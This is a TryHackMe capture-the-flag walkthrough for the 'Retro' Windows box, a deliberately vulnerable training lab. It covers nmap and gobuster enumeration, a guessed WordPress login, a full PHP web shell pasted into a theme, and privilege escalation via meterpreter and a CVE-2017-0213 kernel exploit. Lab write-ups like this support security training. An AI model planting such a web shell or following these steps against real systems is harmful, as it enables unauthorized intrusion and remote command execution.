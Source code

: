 ```yaml
---
title: Retro

date: 2022-07-05 18:32:00 -0500
categories: [Walkthrough, Tryhackme]
tags: [nmap, gobuster, wordpress]
---
```


TryHackMe CTF Box - New High Score!

[https://tryhackme.com/room/retro](https://tryhackme.com/room/retro)

![](/assets/retro.jpg)

* * *

## Pwn

Can you time travel? If not, you might want to think about the next best thing.

* * * 

##  Nmap Scans

- initial ``nmap -Pn -sS -p- 10.10.85.75 -vvv``
- secondary ``nmap -sC -sV -p80,3389 10.10.85.75``

##   Port 80

```shell
PORT     STATE SERVICE       REASON          VERSION
80/tcp   open  http          syn-ack ttl 125 Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
```

##   Port 3389

```shell
3389/tcp open  ms-wbt-server syn-ack ttl 125 Microsoft Terminal Services
| ssl-cert: Subject: commonName=RetroWeb
| Issuer: commonName=RetroWeb
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2022-07-04T16:21:57
| Not valid after:  2023-01-03T16:21:57
| MD5:   8d0b 3ecc 83b6 d988 6316 15b1 7479 0dc7
| SHA-1: b904 cda6 d6c1 1824 98f2 1bda ff45 966f ff10 2f9b
| -----BEGIN CERTIFICATE-----
| MIIC1DCCAbygAwIBAgIQSXN76AiHMrBMfQDmsVszbDANBgkqhkiG9w0BAQsFADAT
| MREwDwYDVQQDEwhSZXRyb1dlYjAeFw0yMjA3MDQxNjIxNTdaFw0yMzAxMDMxNjIx
| NTdaMBMxETAPBgNVBAMTCFJldHJvV2ViMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8A
| MIIBCgKCAQEAnTUxUR3NlTd/EfOaRjv2aZU4K9uAMlOKeUxcWnakWVSxUAoDW2el
| KKFbmCJG36CSSun6/ixtiPgYNUJOMIusbyOz2K2d0joQPiyCqO8sfqFEeAKeak5I
| rGS/bjhvqXNpghCNO4+SHoS64jTyqYpgWhHFWSKjyO4Ja0qLxltuqX1jt2KxNsWy
| VynJUXBPi3wd0cqqFoktixdyFVc+aFck32x5kdREcT/lg6Op2hpyvs9EytS5ZqNv
| iVc7pxJexPvfhORqR1NXaSCzJhsljL0UaqFr1H8lVOwosAfU3HQoPnmD8kgpiaOx
| 4tyDZDWj4755d2+dUL3bF3eJ0VaraAdzlwIDAQABoyQwIjATBgNVHSUEDDAKBggr
| BgEFBQcDATALBgNVHQ8EBAMCBDAwDQYJKoZIhvcNAQELBQADggEBACtAy3coYy5G
| 2uoxwW46+u8O72GJs9+Qfiiht2dUXdbuWSx5xLD7/tsDGW8TEgm/rZj1NXUWUe0o
| 8DzbpjaotEesF+gkJFkQmik7yEKE0mKVkrcNjVi3XzXhzFJSy2Hg3x8TODCehEIa
| TDZOjg51f3airpKrGigNYGfvUmrCFC4Gkw3qFZ6DArUA2k36zusZfvTphzvuam05
| RSF5kL99vnBr//8DO+7BmPPOOCIA4UwTp4tWilox5/9CXbogdyxOyst+Ouofu/0n
| 9ktJO4PYBnoBjKiEK0QcAeIleZ3SYAGNfsDPc/vJHM9uUarlQX89Xos4bvFuJ4wU
| XtdQmKlzGCw=
|_-----END CERTIFICATE-----
|_ssl-date: 2022-07-05T16:28:10+00:00; 0s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2022-07-05T16:28:07+00:00
```

* * * 

##  Web Server Enumeration

- ``gobuster dir -u http://10.10.85.75/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x txt,html,php,asp,aspx -t 100 -z``
- we find a webpage we can visit http://10.10.85.75/retro/ lets enumerate further
- ``gobuster dir -u http://10.10.85.75/retro/ -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x txt,html,php,asp,aspx -t 100 -z``
- its a wordpress site. lets run ``wpscan``
- ``wpscan --url http://10.10.85.75/retro/ -v --api-token my api token -e vp``
- XML-RPC is enabled we can use [WPxploit](https://github.com/relarizky/wpxploit/blob/master/README.md)
- http://10.10.85.75/retro/wp-login.php Need to find a username
- checking out the main page we can see Wade is an author.
- One of his first posts is a hint? ~~"I keep mistyping the name of his avatar whenever I log in but I think I’ll eventually get it down."~~ parzival? Lol we're in...

* * * 

##  Wordpress

Edit the theme and lets inset this code to get some system information

```html
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

* * * 

##  Windows

We can login on RDP Client with credentials Wade/parcival and get the first flag

- The machine is a Windows 2016 server.
- upload meterpreter shell and try to get root
- upload winpeasx64 and scan
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
- exploit!
- https://github.com/SecWiki/windows-kernel-exploits/tree/master/CVE-2017-0213

* * * 


##   Answer the questions below

**A web server is running on the target. What is the hidden directory which the website lives on?**

- /retro/

**user.txt**

![](/assets/retro03.png)

**root.txt**

![](/assets/retro04.png)

* * * 


